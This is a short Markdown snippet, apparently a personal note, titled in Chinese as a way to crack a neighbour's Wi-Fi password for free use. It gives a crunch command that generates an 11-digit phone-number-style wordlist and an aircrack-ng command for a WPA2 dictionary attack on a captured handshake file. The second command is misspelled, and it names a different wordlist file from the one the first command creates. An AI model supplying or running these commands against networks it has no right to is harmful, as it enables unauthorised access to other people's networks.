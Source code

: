 # 想蹭网现解开密码
`crunch 11 11 -t 1391040%%%% -o  pass.txt`
`airaircrack-ng  -a2  wifi.cap  -w  password.txt
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5NDA4NDYzNTFdfQ==
-->